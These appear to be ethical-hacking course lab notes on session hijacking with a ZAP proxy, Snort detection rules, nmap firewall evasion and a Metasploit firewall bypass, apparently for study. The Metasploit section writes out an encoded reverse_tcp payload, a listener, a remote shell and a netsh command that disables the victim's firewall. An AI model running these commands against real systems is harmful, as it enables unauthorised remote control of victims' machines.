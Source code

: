 # 10 - Session Hijacking

## Module 10 - Session Hijacking





### OWASP Zed Attack Proxy (ZAP)

* First set Victim’s Proxy settings to attacker’s IP and port 8080.
* Open ZAP and enable Break Point and click green + to view break points
* Go to settings -> local Proxies -> Change IP from localhost to network IP (in this case 10.10.10.16).
* Browse from victim and view the request and responses on the attacker machine.

{% embed url="https://app.gitbook.com/o/s2H3MdEB0Qp2IbE58Gxw/s/iS3hadq7jVFgSa8k5wRA/~/changes/38/practical-ethical-hacker-notes/zap" %}
ZAP
{% endembed %}

## Evading IDS Firewalls and Honeypots

### Snort - Intrusion Detection

#### ICMP Detection Rule

* Open C:\Snort\rules\icmp-info.rules.
* Type alert icmp $EXTERNAL\_NET any -> $HOME\_NET 10.10.10.12 (msg:"ICMP-INFO PING"; icode:0; itype:8; reference:arachnids,135; reference:cve,1999-0265; classtype:bad-unknown; sid:472; rev:7;) in Line 21.
* Save the file.

#### Start Snort in IDS mode

* Open cmd in C:Snort and Type snort -iX -A console -c C:\Snort\etc\snort.conf -l C:\Snort\log -K ascii | here X=1 , l is small L

#### Detection

Ping the snort machine and rules will be displayed in cmd

{% embed url="https://www.snort.org/" %}

### Nmap Evasion Techniques – Firewall Rule Bypass

* Enable victim firewall. Create inbound rule and block connection from attacker IP.
* Run different scans from attacker machine. Use Zombie scan to bypass firewall rule. `nmap -sI <Zombie IP><Target IP>`

### Metasploit – Firewall Bypass

#### Payload Setup&#x20;

```bash
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e
x86/shikata_ga_nai -b "\x00" LHOST=10.10.10.11 -f exe > Desktop/Exploit.exe #-e encoder, -b list of bad characters to avoid

mkdir /var/www/html/share #make directory
chmod -R 755 /var/www/html/share #change rights recursively to all files and folders inside
chown -R www-data:www-data /var/www/html/share #change owner recursively owner:group
mv /root/Desktop/Test.exe /var/www/html/share #move to exploit
service apache2 start
```

#### Listener Setup

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.10.11
#Start listener
exploit -j -z #exploit -j -z exploit tells Metasploit to start the exploit.
#The -j flag tells it to run in the context of a job and -z simply means to not interact with the session once it becomes active.
```

#### Execute Exploit

```bash
#Open http://10.10.10.11/share on victim machine. Download Payload and run.
sessions -i #to view sessions
sessions -i 1 #to interact with the session created
execute -f cmd.exe -c -H #creates a channel to execute the victim command shell
shell #opens an interactive shell (cmd)
netsh firewall show opmode #to shown firewall stats
netsh advfirewall set allprofiles state off #to turn off firewall
getsystem
Type ps #show active processes
```
